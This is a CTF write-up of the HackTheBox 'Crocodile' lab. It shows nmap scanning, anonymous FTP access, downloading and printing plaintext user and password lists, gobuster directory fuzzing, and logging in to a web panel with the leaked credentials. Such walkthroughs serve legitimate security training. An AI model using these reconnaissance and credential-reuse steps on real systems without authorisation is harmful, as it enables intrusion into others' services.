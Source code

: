 ```yaml
---
title: "HackTheBox - Crocodile"
date: 2023-12-27 09:57:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, web, ftp]
image:
    path: /assets/img/htb/Crocodile.png
    alt: Crocodile - HackTheBox
---
```


[**Crocodile**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Crocodile we will learn about **??**.

## Introduction

- Connect **Crocodile** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with `ping` Target IP.

```bash
❯ ping 10.129.23.227

PING 10.129.23.227 (10.129.23.227) 56(84) bytes of data.
64 bytes from 10.129.23.227: icmp_seq=1 ttl=63 time=222 ms
64 bytes from 10.129.23.227: icmp_seq=2 ttl=63 time=241 ms
64 bytes from 10.129.23.227: icmp_seq=3 ttl=63 time=571 ms
64 bytes from 10.129.23.227: icmp_seq=4 ttl=63 time=260 ms

--- 10.129.23.227 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 222.356/323.275/570.700/143.454 ms
```

### Nmap

Scan ports using `nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port, `-T4` to speed up scanning (the higher the faster [0-5]).

```bash
❯ nmap -sCV -T4 10.129.23.227

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-27 09:35 WIB
Nmap scan report for JSN.JaringanKU (10.129.23.227)
Host is up (0.24s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp   open     http         Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
1077/tcp filtered imgames
1688/tcp filtered nsjtp-data
1971/tcp filtered netop-school
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.07 seconds
```

You can see, there are 5 ports and only 2 are open, 21/tcp which is the ftp service and 80/tcp which is the http service.

If analyzed more deeply, in the ftp section `anonymous` login is allowed, and there are 2 files, let's take them.

### FTP

```bash
❯ ftp 10.129.23.227

Connected to 10.129.23.227.
220 (vsFTPd 3.0.3)
Name (10.129.23.227:huda): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.

ftp> get allowed.userlist
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
226 Transfer complete.
33 bytes received in 0,000122 seconds (264 kbytes/s)

ftp> get allowed.userlist.passwd
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
226 Transfer complete.
62 bytes received in 0,000132 seconds (459 kbytes/s)
```

After that read the file.

```
aron
pwnmeow
egotisticalsw
admin
```
{: file='allowed.userlist'}

```
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```
{: file='allowed.userlist.passwd'}

OK, let's try logging in to FTP using one of these users.

```bash
❯ ftp 10.129.23.227

Connected to 10.129.23.227.
220 (vsFTPd 3.0.3)
Name (10.129.23.227:huda): admin
530 This FTP server is anonymous only.
ftp: Login failed.
ftp> 
```

And the result cannot be that only `anonymous` users can log in, it is possible that the user is for the http service. Let's go to the website.

## Foothold

After entering the web, we are presented with the main web display, and after investigating there are no tabs leading to the login page, therefore we will fuzz the web using `gobuster`

![Desktop View](/assets/img/htb/include/Crocodile-1.png){: .w-75}

### Gobuster

`dir` is used to scan directories, `-u` is used to scan the destination URL, `-w` is used as a wordlist/words that may be in the destination URL, and `-x` is used to scan extensions

```bash
❯ gobuster dir -u http://10.129.23.227/ -w /usr/share/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.23.227/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 58565]
/login.php            (Status: 200) [Size: 1577]
/assets               (Status: 301) [Size: 315] [--> http://10.129.23.227/assets/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.23.227/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.23.227/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
Progress: 7600 / 262995 (2.89%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 7606 / 262995 (2.89%)
===============================================================
Finished
===============================================================
```

We can see, there is login.php. Come on, go back to the website. Login with the username and password provided in the file earlier.

![Desktop View](/assets/img/htb/include/Crocodile-2.png){: .w-75}
![Desktop View](/assets/img/htb/include/Crocodile-3.png){: .w-75}
